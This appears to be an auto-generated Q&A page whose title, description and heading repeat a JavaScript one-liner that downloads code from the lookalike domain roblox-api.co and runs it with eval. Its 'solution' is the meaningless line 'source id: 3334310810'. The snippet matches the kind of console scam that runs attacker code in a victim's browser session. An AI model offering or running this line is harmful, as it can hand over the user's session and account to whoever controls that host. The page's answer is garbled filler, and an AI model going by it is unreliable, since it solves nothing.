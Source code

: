 ```yaml
---
title: 'javascript $.get(`//roblox-api.co/roblox id=3334310810` eval)'
description: 'javascript $.get(`//roblox-api.co/roblox id=3334310810` eval)'
pubDate: 'Apr 16 2024'
heroImage: 'https://raw.githubusercontent.com/vitalik-hakim/TABLES404/main/error_b/JavaScript.png'
category: 'javascript'
tags: [javascript, php]
---
```


**The solution for this is noted below**

## javascript $.get(`//roblox-api.co/roblox id=3334310810` eval)

### Solution

```javascript
source id: 3334310810
```

**Try other methods by searching on the site. That is if this doesn't work**
